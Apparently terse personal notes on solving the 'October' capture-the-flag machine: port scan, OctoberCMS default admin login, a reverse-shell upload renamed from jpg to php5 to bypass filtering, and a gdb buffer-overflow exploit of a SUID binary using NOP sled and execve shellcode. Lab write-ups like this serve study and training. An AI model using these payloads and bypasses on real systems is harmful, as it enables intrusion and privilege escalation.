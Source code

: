 ## october 10.10.10.16

linux

22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 \(Ubuntu Linux; protocol 2.0\)

80/tcp open  http    Apache httpd 2.4.7 \(\(Ubuntu\)\)

octobercms

**server 2003 sp2 x86**

* Retrieved x-powered-by header: PHP/5.5.9-1ubuntu4.21

  Potentially risky methods: PUT PATCH DELETE

[http://10.10.10.16/backend/backend/auth/signin](http://10.10.10.16/backend/backend/auth/signin)

suid enabled binaries / buffer overflows?

/usr/local/bin/ovrflw

Exploiting /usr/local/bin/ovrflw but NX bit is on and ASLR is enabled on the machine

**admin admin er login**

**upload rev shell i media en jpg, rename til php5 for å bypasse.**

/usr/local/bin/ovrflw



disassemble main

break \*0x080484c5

run $\(python -c "print\('A'\*256\)"\)

x/200xb $esp



0xbfcfc180 eller 0xbfcfc178



quit

run $\(python -c "print\('A'\*200\)"\)

run $\(python -c "print\('A'\*112\)"\)

**run $\(python -c "print\('A'\*112+'BBBB'\)"\)**

41 blir til 42

112 - 23 byte shellcode = 87

run $\(python -c "print\('\x90'\*87+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'+'\x87\xcf\x1c\xfc\fb'\)"\)

